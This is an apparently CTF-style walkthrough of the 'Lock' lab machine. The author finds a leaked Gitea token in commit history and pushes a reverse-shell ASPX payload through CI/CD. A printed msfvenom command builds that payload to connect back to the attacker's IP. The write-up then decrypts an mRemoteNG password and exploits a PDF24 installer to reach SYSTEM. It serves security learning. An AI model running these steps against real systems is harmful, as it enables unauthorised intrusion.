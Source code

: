 # Lock (easy)

## port scan
![](walkthrough_20240409222405175.png)

## web discover

we have git leak

![](walkthrough_20240409220011696.png)

but return 403

## gitea discover

![](walkthrough_20240409222458302.png)

![](walkthrough_20240409222528749.png)

use `git log -p ` to dump all diff. We found a token `43ce39bb0bd6bc489284f2905f033ca467a6362f`

![](walkthrough_20240409222840196.png)


worked !

![](walkthrough_20240409223316091.png)

## get a shell

we have website.git

![](walkthrough_20240409223425998.png)

we can use `git clone $token@$target_repo` format to clone repo

![](walkthrough_20240409223522140.png)

ci/cd is enable which mean we can change this repo and get shell via ci/cd

![](walkthrough_20240409224452657.png)

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.8.1.167 LPORT=80 -f aspx -o shell.aspx
```

add shell.aspx to project directory

just push our evil code to remote repo

![](walkthrough_20240409224719558.png)

use curl command ang we get a shell!

```
git add .
git commit -m 'update shell console to dev'
git push -u origin main
```

![](walkthrough_20240409224833005.png)

### runas Gale.Dekarios
there have some creds

![](walkthrough_20240409225121860.png)

![](walkthrough_20240409225316514.png)

there have Gale.Dekarios user encrypt password in config.xml

![](walkthrough_20240409230829041.png)

so this is something called mRemoteNG


![](walkthrough_20240409230852799.png)


now we have plaintext password

![](walkthrough_20240409230248713.png)

we can use this password rdp into target

![](walkthrough_20240409230005611.png)


## Privilege Escalation


because there have a software called `PDF24`

google!

![](walkthrough_20240409231454409.png)

![](walkthrough_20240409231655957.png)

this exploit seems must use installed.msi. so we have to find a msi file called `pdf24-creator-11.14.0-x64.msi`


![](walkthrough_20240409231849001.png)

got it!

![](walkthrough_20240409231905319.png)

build tool

![](walkthrough_20240409232716293.png)

wait sometime

![](walkthrough_20240409234909290.png)


we have system cmd!

![](walkthrough_20240409233530701.png)

just follow the post, our target is open web browser 

![](walkthrough_20240409233611214.png)

select legacy console model

![](walkthrough_20240409233630760.png)

don't select edge. seems edge can't run on this windows version. it doesn't pop up edge 

![](walkthrough_20240409233719407.png)

we launch system firefox web browser

![](walkthrough_20240409235401600.png)


![](walkthrough_20240409235445495.png)

firefox open file `Ctrl + O`

![](walkthrough_20240409235615006.png)


![](walkthrough_20240409235641885.png)

we get system cmd shell !

![](walkthrough_20240409235658744.png)